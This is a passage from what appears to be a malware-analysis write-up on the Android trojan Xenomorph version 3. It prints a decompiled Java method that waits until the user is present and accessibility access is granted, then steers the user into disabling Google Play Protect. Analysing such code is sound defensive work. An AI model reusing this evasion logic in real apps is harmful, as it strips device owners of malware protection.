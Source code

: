 
![properties](assets/img/posts/2024-05-06-Xenomorph_v3/properties.png)

### Utilities

By version 3, Xenomorph added quite a number of interesting features in addition to updating some of its previous capabilities

#### 1 - Turn off Play Protect

This starts `PlayProtectActivity`, which in turn opens the device's security settings where the user can manually disable Google Play Protect.

```java
    public static boolean turnOffPlayProtect(Context context) {
        if (isScreenUnlocked(context) && isUserPresent(context) && isAccessibilityServiceEnabled(context, FitnessAccessibilityService.class)) {
            UtilLog.addToInteger(context, Constants.playProtectDisableAttempts, 1);
            Intent intent = new Intent(context, PlayProtectActivity.class);
            intent.addFlags(268435456); // FLAG_ACTIVITY_NEW_TASK
            intent.addFlags(536870912); // FLAG_ACTIVITY_CLEAR_TOP
            intent.addFlags(1073741824); // FLAG_ACTIVITY_CLEAR_TASK
            context.startActivity(intent);
            Log("turnOffPlayProtect", "Intent Started");
            return true;
        }
        return false;
    }
```
